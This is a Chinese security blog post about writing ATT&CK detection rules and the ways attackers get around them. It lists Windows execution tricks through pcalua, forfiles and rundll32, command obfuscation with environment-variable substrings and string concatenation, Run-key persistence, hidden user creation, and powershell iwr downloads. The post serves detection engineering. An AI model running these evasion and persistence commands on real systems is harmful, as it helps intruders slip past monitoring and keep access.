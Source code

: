 

# ATT&CK 矩阵的攻与防 - 先知社区

ATT&CK 矩阵的攻与防

- - -

# 前言

对于 ATT&CK，我相信搞安全的师傅们都在熟悉不过了，ATT&CK 把攻击者所运用的技术都以各种 TTP 展现出来了，如何将 ATT&CK 框架，更好的利用在我们的企业中，看似是一个简单的问题，实际操作却会出现许多无法意料的问题，就比如我们 ATT&CK 对应的计划任务，我们对应的规则应该怎么写，写完了规则的准确率是多少，误报率是多少，召回率是多少，写的规则是否真的能检测业务蓝军或者是入侵者，企业是否有支持 ATT&CK 运营的基础设施平台，ATT&CK 运营人员的水位怎么样，因为你的规则匹配出了计划任务，但是仅凭借计划任务我们就能判断出改终端的行为是恶意的吗？不能这么草率吧，以及 T1059.001 的 powershell，我们又打算如何设计我们的规则，是单纯的匹配恶意 powershell 文本的执行，比如 powerspliot 还是 empire 的脚本，还是根据 powershell 的功能来判断恶意行为？比如执行，下载，-bypass 参数来匹配恶意行为，或者是直接套用微软的 powershell 语言限制模式，当然，这几种模式没有优劣之分，我们红军需要的是用已知的技术解决方案满足企业的安全需求，我们防守方的优势在于攻击者对于我们安全防线水位的未知  
当然，我们企业红军所面临的蓝军或者攻击者，他们的攻击方式都是很简单致命的，就是一条攻击链路不会有没必要的攻击行为，这对于我们防守方来说，我们设计了很多规则，看似巧妙精密，但是还是会被企业的蓝军绕过，每次复盘都有许多能提升的水位，当然，废话了这么多，此篇文章仅是以笔者的攻防思路，输出自己对于 ATT&CK 矩阵的理解，文章尽量会按照以前的风格浅显易懂，如果有师傅对 ATT&CK 感兴趣，欢迎与我交流，可以邮箱联系我

# ATT&CK 规则的攻与防

防守方的难点在于，我们部署好了的防线，无论是 WAF/RASP，蜜罐，IDS/IPS，还是我们基于 ATT&CK 矩阵的检测防线，我们的防守水位到底是怎样的，蓝军，攻击者是基于对我们企业防线未知的情况下发动的进攻，而我们红军自己写的规则，我们最清楚不过，那对于已知的防守情况发动针对性的测试，我相信也会提升企业的安全水位，所以，基于 ATT&CK 的攻与防，攻在于我们，防，也在于我们

# 执行

这是一个经久不衰的问题，还记得最初搞站的时候，用的菜刀，传了一个 exe 上去，要 cd 到 exe 的目录，但是目录有中文啊，我 cd 不过去啊，我想了很久不知道怎么解决，后来在吐司的论坛上看见，可以写入 bat，再回想，这也是自己第一次明白了渗透所谓的灵活变通，第二次有印象的，是一个 aspx 的站点，站内 pe 无法执行，无法启用 powershell，mshta hta 玄学不上线，dll 运行报错，我傻眼了，这怎么上线啊，经过到处摸索，发现可以通过 aspx 上线，那时候我才明白，语言环境的作用不仅仅是一句话木马的作用，回到正题，对于执行这一块，正如笔者所说，可执行的方式有很多，不仅限于 exe。  
做一个简单的总结，攻击者有哪些常见执行 exe 的方法以及变种呢（仅针对 windows）  
1.后缀替换（这名字取得很不专业）  
比如用 ps1,bat,vbs,dll,hta 等文件

2.语言脚本  
常见的比如 aspx,php,python,java,node.js  
python3 -c "import os;output=os.popen('C:/Users/xinxin/Desktop/mmm.exe');"  
[![](assets/1708149685-0562813eea898f099d6ffd63d8476da0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513115239-21fe9424-d270-1.png)  
3.第三方服务  
比如我们的 7zip，他也可以执行  
[![](assets/1708149685-15701fc517b3e49cfaa04c964844a467.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220512104940-2b39f4ac-d19e-1.png)  
当然，这对于我们防守方也是十分头疼，时不时攻击者找到一个东西 bypass 一下，这种规则怎么写嘛，办公软件，不可能直接拉黑吧，可以考虑进程白名单，你 7zip 进程起的进程，不让执行，当然，这很考验企业的基础设施

4.白 + 黑  
就那执行 exe 来说，我们出了通过双击，cmd 运行以外，还可以存在如下运行方式  
利用 pcalua  
Pcalua -m -a axgg.exe  
[![](assets/1708149685-656cc13c927f5c889606b114202d3e26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513114225-b42b0cc6-d26e-1.png)  
利用 forfiles  
forfiles -P c:\\windows\\ /m \*.prx /c "cmd /c c:\\users\\axingg\\desktop\\axgg.exe  
[![](assets/1708149685-352854c8174161dc56b8566f55589892.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513114444-0702cb3c-d26f-1.png)  
利用 rundll32 执行  
rundll32 advpack.dll RegisterOCX axgg.exe  
[![](assets/1708149685-d15a5562d9a8268e8068509a72382cec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513114913-a76fa19e-d26f-1.png)  
当然，rundll32 还可以变形出很多  
rundll32 url.dll,FileProtocolHandler file://C:\\Users\\axingg\\Desktop\\axgg.exe  
rundll32 url.dll,OpenURL axgg.exe  
rundll32 zipfldr.dll, RouteTheCall axgg.exe  
rundll32 javascript:"..\\mshtml,RunHTMLApplication ";document.write("\\74script language=javascript)"+(new%20ActiveXObject("WScript.Shell")).Run("axgg.exe")+"\\74/script)")

5.变形  
其实这一点就有点类似于我上篇文章，命令混淆，变形的思路在于替换，缩短，拼接，我们来看看

先说替换，我们可以怎么替换，比如 Pcalua -m -a axgg.exe，我们可以使用环境变量替换某个字符串  
P%comspec:~20,1%alua -m -a axgg.%comspec:~24,1%x%comspec:~24,1%  
[![](assets/1708149685-f5c2e4251424bfa96565f2a261981ad3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513121346-159c3aee-d273-1.png)  
提个问题，关于 pcalua 这个 exe，我们可以去了解一下它具体是干嘛的，出了-m -a 参数还有什么，是否只能执行 exe，dll，vbs 这些能够执行吗？

利用特殊字符串替换  
比如我们的命令，forfiles -P c:\\windows\\ /m *.prx /c "cmd /c c:\\users\\axingg\\desktop\\axgg.exe  
[![](assets/1708149685-58c6225526fcf4e0e3c2a766fd28b5db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513121732-9c34f974-d273-1.png)  
我们-p 可以替换为/p，甚至可以用特殊字符串绕过  
forfiles /ᵖ c:\\windows\\ /m* .prx /c "cmd /c c:\\users\\axingg\\desktop\\axgg.exe  
同样也提一个问题，后面的/m /c 也能够用-m -c 替换吗？如果你是防守方，这一条 att&ck 的规则你会怎么写？对于这种特殊字符串到底该如何检测？

巧用 copy&&rename  
比如我们的命令，rundll32 url.dll,FileProtocolHandler file://C:\\Users\\axingg\\Desktop\\axgg.exe  
copy c:\\Windows\\System32\\rundll32.exe c:\\Users\\axingg\\Desktop\\axgg.axgg  
axgg.axgg url.dll,FileProtocolHandler file://C:\\Users\\axingg\\Desktop\\axgg.exe  
[![](assets/1708149685-b562b93a22b606d5185b13c0fb0b1366.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513122329-7111b13c-d274-1.png)  
至于 rename 我就不截图了，同样也有一个问题，那么我们的 copy,rename 能否变化呢？

在举一个列子，权限维持我们会用到注册表，如下命令为最常见的命令  
reg add "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v axgg /t REG\_SZ /d "C:\\Users\\axgg\\evil.exe" //开机自己运行  
如果你是防守方，你会怎么写规则？不管怎么匹配，HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run 这一个注册表的位置肯定是重点  
那我们怎么绕过呢，我们可以用 reg import  
我相信有朋友已经心领神会了，这也是替换，用相似的参数去绕过

接下来就是缩短，这个怎么理解，还是以命令行举例，添加用户  
net user axgg 123456 /add  
net1 user axgg 123456 /add  
其实我们/add => /ad，我相信这个大部分师傅也是知道的  
[![](assets/1708149685-245d7633a86fa516346be2c242fcf65b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513135731-93d8d4ae-d281-1.png)  
再举一个列子，powershell 能够下载文件，但是我很少看见师傅用这个命令，Invoke-webrequest  
powershell.exe Invoke-webrequest -uri [http://192.168.1.28:1456/test.txt](http://192.168.1.28:1456/test.txt) -o test.txt  
[![](assets/1708149685-45149c1e7e52d82ac5ff74d83cd79e06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513140556-c0a9e0a8-d282-1.png)  
而我们的 Invoke-webrequest ==》iwr  
powershell.exe iwr -uri [http://192.168.1.28:1456/test.txt](http://192.168.1.28:1456/test.txt) -o test.txt  
这就是缩短

那什么是拼接呢，因为这个概念我最早接触于 powershell 绕过 AMSI，分享技术的博主就提出了这个概念，但是对于其他命令行怎么绕过，一直没有大体思路  
但我们也可以举个例子，还是以加用户为例子  
set a1=er la&& set a2=ne&& set a3=t us&& set a4=cker qaz2022&& set a5=WSX /a&& set a6=d&&call echo %a2%%a3%%a1%%a4%%a5%%a6%  
[![](assets/1708149685-eba8c0f458d19b31c7fd3edd19876415.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220513141245-b4a0e9ea-d283-1.png)

# 后记

希望这篇文章能给做 ATT&CK 体系的师傅们带来一些新的理念和想法，当然，我上面所举的列子，可能在某些检测体系上会原形毕露，直接被当场逮捕，但是重要的是提供一个思路，当然，如果师傅们喜欢这篇文章，阿鑫后续一定会对 att&ck 框架每一个 TTP 给出自己的攻防体系思考，之前写的文章挖了很多坑，开了一些系列，都没有坚持做下去，是因为事情太杂，时间不够用，但是笔者现在正在从事研究 ATT&CK 框架体系，接触的时间不长，如果有师傅对 ATT&CK 感兴趣，欢迎与我交流，可以邮箱联系我[lc999831@gmail.com](mailto:lc999831@gmail.com),文章如有错误，希望师傅们斧正
